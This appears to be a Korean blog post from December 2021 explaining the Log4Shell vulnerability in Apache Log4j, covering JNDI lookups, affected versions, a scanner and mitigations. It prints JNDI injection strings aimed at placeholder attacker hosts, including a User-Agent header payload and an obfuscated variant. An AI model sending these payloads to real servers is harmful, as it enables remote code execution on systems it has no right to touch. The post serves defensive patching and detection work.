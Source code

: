 ```yaml
---
title: "[Log4SHell] Log4j 보안 취약점"
tags: [보안뉴스, log4j, log4shell]
author: eli_ez3r
key: 20211213
modify_date: 2021-12-13
article_header:
  type: cover
  image:
    src: /assets/img/Apache-Log4j-Logo.jpg
---
```

-----

2021년 12월 10일  Log4j보안 취약점에 대한 긴급패치가 발표되었다.

이번 발견된 Log4j취약점 `Log4Shell`은 2021년 11월 24일 Alibaba Cloud 보안팀으로 부터 발견된 Zero-Day[^1] 취약점으로 뉴스에서 발표될 당시에는 이미 취약점 패치를 진행한 후 발표된 One-Day[^2] 취약점인 상태였다.

KISA : [Apache Log4j 2 보안 업데이트 권고](https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389)

CVE : [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

-----





## Log4j 란?

Log4j는 Apache Software Foundation에서 개발한 인기있는 [로깅 유틸리티 라이브러리](https://en.wikipedia.org/wiki/Log4j)로 Apache 오픈소스이다.

전 세계 수 많은 서비스들이 Log4j를 이용하고 있으며 자바 프로그래밍 초보시절 `system.out.println("debug : " + str)` 로 디버깅 하던 것 대신, `log.info("debug {}", str)`하라고 조언 받은것 처럼 널리 사용하고 있는 라이브러리이다.



-----

## Log4j 취약점

현재 문제가 있는 log4j 라이브러리는 `log4j-core-<version>jar`이며, Log4j가 넘겨받은 변수를 그대로 로깅하는 것이 아니라 해당 변수를 분석해 할 수 있는 경우 실행하는 `Lookups` 기능에서 발견되었다.

예를들어, `log.info("Debug: {}", str)`에서 **str**이 **${env:USER}**라면 **USER**가 누군지 찾아서, `Debug: eli_ez3r`라고 문구를 완성하고 해당 문구를 출력하는 경우이다.

현재 취약점은 Lookups기능 중에서도 특히 **JDNI**라는 Lookups을 이용해 공격이 가능하다.

Apache Log4j 2의 일부 기능에는 **재귀 분석 기능(Recursive Analysis Functions)**이 있기 때문에 공격자가 직접 악성 요청을 구성하여 **원격 코드 실행 취약점(RCE)**을 유발시킬 수 있어 **CVSS스코어 10점**으로 가장 높은 심각도를 나타내고 있다.

취약점 악용에는 특별한 구성이 필요하지 않으며, Alibaba Cloud 보안팀의 검증결과 Apache Struts2, Apache Solr, Apache Druid, Apache Flink 등이 모두 영향을 받는 것으로 알려있다.



-----

## JNDI를 이용한 공격

JNDI란 Java Naming and Directory Interface의 약자로 보통 분산시스템에서 다른 리소스를 가져오는데 사용할 수 있다.

다른 리소스의 예로 자바 클래스 등에서 공격자가 이 경로를 자신의 서버로 지정하면 취약점이 있는 서버가 공격자의 서버에서 클래스를 다운받는 것이다.

이렇게 공격자의 서버에서 클래스를 다운받아 코드를 실행하게 된다.



예를들어 다음과 같은 로그 라인이 서버 어플리케이션에 존재한다고 하자.

```java
log.info("Debug: {}", payload);	
```

여기서 payload는 HTTP Requests에서 요청자가 보낸 문자열이다.

이 문자열이 `${jndi:ldap://attacker.com/classname}`을 포함하면 Log4j는 이를 해석하여 `ldap://attacker.com/classname`을 실행시키게 된다.

현재 가장 쉽게 공격할 수 있는 방법은 HTTP 헤더 **User-Agent**에 ldap주소를 넣어 코드를 다운받는 방법이라고 한다.

```
User-Agent : ${jndi:ldap://<host>:<port>/<path>}
```

물론 User-Agent 헤더 뿐만 아니라, HTTP Request에게서 받은 문자열을 로깅하는 경우 어디서든지 지정한 문자열을 로깅하기만 하면 취약점에 노출되어 있다.



-----

## Log4Shell 취약점은 사상 최악의 취약점?

Log4Shell의 취약점은 RCE취약점으로 취약점 중에서도 심각한 단계의 취약점으로 분류된다.

하지만 그 외에도 아래와 같은 점들 때문에 **사상 최악의 취약점**이라고 불려지고 있다.

1. Log4j는 자바 기반의 소프트웨어에서 굉장히 많이 쓰여지고 있는 라이브러리이다. => 공격 대상/범위가 광범위하다
2. 공격 방법이 간단하다. => 복잡한 과정없이 POC코드를 전송하기만 하면 공격이 성공한다.
3. 하나의 소프트웨어는 여러개의 소프트웨어가 조합되어 만들어지는데, 그중 한곳에서라도 Log4j를 사용하게 되면, 해당 소프트웨어는 취약하다.
4. 내 서버가 이미 공격을 당했는지 분석하기 위해서는 Log4j를 사용한 시점부터 분석해야 한다. => 10년 넘게 Log4j를 사용했다면?



-----

## 영향 받는 버전

1. Apache Log4j 2
   - 2.0-bete9 ~ 2.14.1 모든 버전
2. Apache Log4j 2를 사용하는 제품
   - [참고사이트](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)를 확인하여 해당 제품을 이용 중일 경우, 해당 제조사의 권고에 따라 패치 또는 대응 방안 적용



-----

## Trigger

공격자가 HTTP Request에 `${jndi:rmi://공격자URL}`, `${jndi:ldap://공격자URL}`, `${jndi:${lower:l}${lower:d}a${lower:p}://공격자URL}` 와 같이 요청 시 트리거된다.



-----



## 점검 방법(1)

[참고 사이트](https://github.com/logpresso/CVE-2021-44228-Scanner)에서 서버 운영체제에 맞게 파일을 다운받는다.

서버내에서 라이브러리가 설치되어 있는 경로를 넣어 점검한다.

- Windows

```
log4j2-scan [--fix] target_path
```

- Linux

```
./log4j2-scan [--fix] target_path
```

- 유닉스(AIX, Solaris ...)

```
java -jar logpresso-log4j2-scan-1.2.0.jar [--fix] target_path
```



- Example (Windows)

```
CMD> log4j2-scan.exe D:\tmp
[*] Found CVE-2021-44228 vulnerability in D:\tmp\elasticsearch-7.16.0\bin\elasticsearch-sql-cli-7.16.0.jar, log4j 2.11.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\elasticsearch-7.16.0\lib\log4j-core-2.11.1.jar, log4j 2.11.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\flink-1.14.0\lib\log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\logstash-7.16.0\logstash-core\lib\jars\log4j-core-2.14.0.jar, log4j 2.14.0
[*] Found CVE-2021-44228 vulnerability in D:\tmp\logstash-7.16.0\vendor\bundle\jruby\2.5.0\gems\logstash-input-tcp-6.2.1-java\vendor\jar-dependencies\org\logstash\inputs\logstash-input-tcp\6.2.1\logstash-input-tcp-6.2.1.jar, log4j 2.9.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-7.7.3\solr-7.7.3\contrib\prometheus-exporter\lib\log4j-core-2.11.0.jar, log4j 2.11.0
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-7.7.3\solr-7.7.3\server\lib\ext\log4j-core-2.11.0.jar, log4j 2.11.0
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-8.11.0\contrib\prometheus-exporter\lib\log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-8.11.0\server\lib\ext\log4j-core-2.14.1.jar, log4j 2.14.1

Scanned 5047 directories and 26251 files
Found 9 vulnerable files
Completed in 0.42 seconds
```





## 점검 방법(2)

[Log4j2 BurpSuite 수동 스캐닝 플러그인](https://github.com/whwlsfb/Log4j2Scan)





-----

## 해결방법

1. JDNI 취약점이 해결된 버전으로 패치한다
2. 2.0-beta9 ~ 2.10.0
   - JndiLookup 클래스를 경로에서 제거 : zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
3. 2.10 ~ 2.14.1
   - log4j2.formatMsgNoLookups 또는 LOG4J_FORMAT_MSG_NO_LOOKUPS 환경변수를 true로 설정
4. [제조사 홈페이지](https://logging.apache.org/log4j/2.x/download.html)를 통해 최신버전(2.15.0)으로 업데이트 적용





-----

출처: [ESTsecurity](https://blog.alyac.co.kr/4341), [KISA 침해사고분석단 취약점분석팀](https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389), [Wiki](https://ko.wikipedia.org/wiki/Log4j)



[^1]:취약점이 알려지지 않거나, 관련 패치가 배포되지 않은 시기
[^2]: 취약점 대응 패치가 배포된 시기
